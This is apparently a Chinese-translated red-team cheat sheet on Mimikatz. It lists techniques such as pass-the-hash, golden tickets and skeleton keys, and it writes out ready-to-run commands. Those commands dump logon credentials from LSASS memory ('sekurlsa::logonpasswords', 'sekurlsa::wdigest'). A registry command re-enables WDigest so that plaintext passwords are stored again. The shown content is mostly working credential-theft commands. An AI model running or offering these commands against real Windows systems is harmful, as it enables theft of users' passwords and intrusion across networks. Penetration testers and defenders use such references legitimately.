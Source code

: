 # Windows - Mimikatz

## 概述

* [执行命令](#执行命令)
* [提取密码](#提取密码)
* [LSA保护绕过](#lsa-保护绕过)
* [迷你转储](#mini-dump)
* [传递哈希](#pass-the-hash)
* [黄金票据](#golden-ticket)
* [万能钥匙](#skeleton-key)
* [RDP会话接管](#rdp-session-takeover)
* [RDP密码](#rdp-passwords)
* [凭据管理器与DPAPI](#credential-manager--dpapi)
  * [Chrome Cookies和凭据](#chrome-cookies--credential)
  * [任务计划凭据](#task-scheduled-credentials)
  * [保险库](#vault)
* [命令列表](#commands-list)
* [PowerShell版本](#powershell-version)
* [参考资料](#references)

![内存中的数据](http://adsecurity.org/wp-content/uploads/2014/11/Delpy-CredentialDataChart.png)

## 执行命令

只有一个命令

```powershell
PS C:\temp\mimikatz> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

Mimikatz控制台（多个命令）

```powershell
PS C:\temp\mimikatz> .\mimikatz
mimikatz # privilege::debug
mimikatz # log
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
```

## 提取密码

> 自Win8.1 / 2012R2+起，Microsoft禁用了lsass的明文存储。它通过KB2871997作为注册表项在Win7 / 8 / 2008R2 / 2012上进行了回滚，但明文仍然启用。

```powershell
mimikatz_command -f sekurlsa::logonPasswords full
mimikatz_command -f sekurlsa::wdigest

# 在Windows Server 2012+中重新启用wdigest
# 在HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest中
# 创建一个DWORD 'UseLogonCredential'，值为1。
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /f /d 1
```
